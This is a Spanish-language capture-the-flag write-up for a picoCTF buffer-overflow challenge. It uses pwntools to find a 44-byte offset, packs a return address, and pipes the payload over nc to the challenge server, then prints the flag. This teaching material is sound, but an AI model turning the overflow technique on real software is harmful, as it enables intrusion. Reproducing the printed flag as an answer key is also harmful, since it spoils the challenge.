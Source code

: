 ## Descripción
Control the return address
Additional details will be available after launching your challenge instance.

## Pistas
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Solución
- Como podemos ver en el codigo, el bufer que almacena la contraseña, tiene un tamaño de 32. Por lo que generaremos una variable mas grande con la liberia `pwn`

```python()
 from pwn import *
	cyclic(50)

b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama'
```

- Si ponemos este resultado como entrada en el programa, nos lleva a `0x6161616c`, que es el la direccion de retorno, ya que la cadena ingresada es mayor al limite
- Ahora debemos encontrar que caracteres sobreescribieron el buffer, para eso utilizaremos:

```python()
 from pwn import *
cyclic_find(0x6161616c)

44
```

- Entonces, `44` son los digitos que tenemos que intruducir antes de ingresar la direcion de retorno, pero de manera inversa a como la obtuvimos, para eso utilizaremos un programa en python:

```bash()
p32(0x080491f6)

b'\xf6\x91\x04\x08'
```

- Ya con esto, solo tenemos que ingresar los 44 digitos mas la direccion de retorno para obtener la flag

```bash()
echo '00000000000000000000000000000000000000000000\xf6\x91\x04\x08' | nc saturn.picoctf.net 63715 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}  
```

- La flag es

```
picoCTF{addr3ss3s_ar3_3asy_9cf083f8} 
```

## Notas adicionales
- Hay que analizar el codigo fuente del binario para obtener la respuesta.

## Referencias 
- Sin referencias.

